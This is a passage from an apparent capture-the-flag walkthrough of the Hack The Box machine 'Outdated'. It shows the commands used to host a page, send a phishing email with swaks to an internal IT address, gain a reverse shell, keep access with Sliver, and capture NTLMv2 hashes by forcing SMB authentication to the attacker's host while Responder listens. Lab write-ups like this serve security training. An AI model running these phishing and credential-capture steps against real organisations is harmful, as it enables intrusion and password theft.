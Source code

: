 Host the index.html

```bash
python3 -m http.server 80
```

Send the Mail

```bash
swaks --to itsupport@outdated.htb --from pain@mewo.htb --server mail.outdated.htb --body "http://10.10.14.109:8080/" --header "Subject:Internal Web App request"
```

![image.png](/assets/Images/HTB_Outdated/image%209.png)

Got the reverse shell

i used sliver for persistences its totally optional

After i always take a sliver session just in case i loose that reverse shell

![image.png](/assets/Images/HTB_Outdated/image%2010.png)

after the reverse shell first thing is to grab the NTLMv2 hash 

and try to crack it

```bash
dir \\10.10.14.109\pain
```

```bash
responder -I tun0
```

![image.png](/assets/Images/HTB_Outdated/image%2011.png)
